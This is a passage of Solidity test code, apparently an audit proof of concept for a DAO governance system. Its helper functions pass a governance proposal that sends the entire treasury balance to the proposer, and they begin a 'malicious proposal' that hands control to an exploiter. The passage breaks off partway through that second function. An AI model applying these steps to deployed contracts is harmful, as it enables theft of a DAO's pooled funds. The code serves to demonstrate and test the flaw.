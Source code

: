 ```solidity

        addMetadataProperties();
        
        vm.stopPrank();

        (address _metadata, address _auction, address _treasury, address _governor) = manager.getAddresses(_token);

        token = Token(_token);
        metadataRenderer = MetadataRenderer(_metadata);
        auction = Auction(_auction);
        treasury = Treasury(payable(_treasury));
        governor = Governor(_governor);

        vm.label(address(token), "TOKEN");
        vm.label(address(metadataRenderer), "METADATA_RENDERER");
        vm.label(address(auction), "AUCTION");
        vm.label(address(treasury), "TREASURY");
        vm.label(address(governor), "GOVERNOR");
    }

    function createSwipeAllProposalAndVote(address proposer) internal {
         vm.startPrank(proposer);
         address[] memory targets = new address[](1);
        targets[0] = proposer;
        uint256[] memory values = new uint256[](1);
        values[0] = address(treasury).balance;
        bytes[] memory calldatas = new bytes[](1);
        calldatas[0] = "";
        string memory description = "desc";
        bytes32 proposalID = governor.propose(targets,values,calldatas,description);

        //warp to vote start
        vm.warp(block.timestamp+governor.MIN_VOTING_DELAY());
        governor.castVote(proposalID, 1);

        //warp to vote end
        vm.warp(block.timestamp+governor.MIN_VOTING_PERIOD());
        governor.queue(proposalID);

        bytes32 descriptionHash = keccak256(bytes(description));
        governor.execute(targets,values,calldatas,descriptionHash,proposer);
        vm.stopPrank();
    }

    //initial malicious proposal that transfers control to the exploiter    
    function createMalProposalAndVote(address proposer) internal {
        vm.startPrank(proposer);
        address[] memory targets = new address[](6);
        targets[0] = address(governor);
        targets[1] = address(token);
        targets[2] = address(auction);
        targets[3] = address(governor);
        targets[4] = address(governor);
        targets[5] = address(treasury);
        uint256[] memory values = new uint256[](6);
        values[0] = 0;
        values[1] = 0;
        values[2] = 0;
        values[3] = 0;
        values[4] = 0;
        values[5] = 0;
        bytes[] memory calldatas = new bytes[](6);
```